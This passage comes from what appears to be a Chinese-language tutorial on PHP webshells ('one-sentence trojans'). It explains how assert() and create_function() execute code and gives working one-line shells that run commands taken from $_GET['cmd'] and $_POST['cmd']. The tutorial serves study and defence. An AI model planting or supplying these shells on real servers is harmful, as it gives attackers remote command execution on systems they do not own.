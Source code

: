 ```
给 assert() 函数传入字符串参数，这个特性在 7.2 禁用，在 8.0 版本时会被彻底删除。
```

注意：我们对一句话木马使用的一些 payload，比如 phpinfo() 或者 system(‘command’)，因为不是字符串，所以也就不受版本限制。

如下所示：

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
//@eval($_POST[cmd]);
//assert(system("date"));
assert($_GET['cmd']);
?>
```

![image-20200910202837253](/images/webshell/image-20200910202837253.png)

##### create_function

在php中，函数`create_function`主要用来创建匿名函数。

```php+HTML
string create_function(string $args, string $code)
string $args 变量部分
string $code 方法代码部分
```

注意当我们使用此匿名函数的时候，方法代码部分会被执行。

```php+HTML
<?php
//eval(system('date'));
//$tmp='system("'.$_GET[cmd].'");';
//eval($tmp);
//@eval($_POST[cmd]);
//assert(system("date"));
//assert($_GET['cmd']);
$tmp = create_function('',system('date'));
$tmp();
?>
```

![image-20200910203507277](/images/webshell/image-20200910203507277.png)



构造一句话木马

```php+HTML
<?php
$tmp = create_function('',$_POST['cmd']);
$tmp();
?>
```

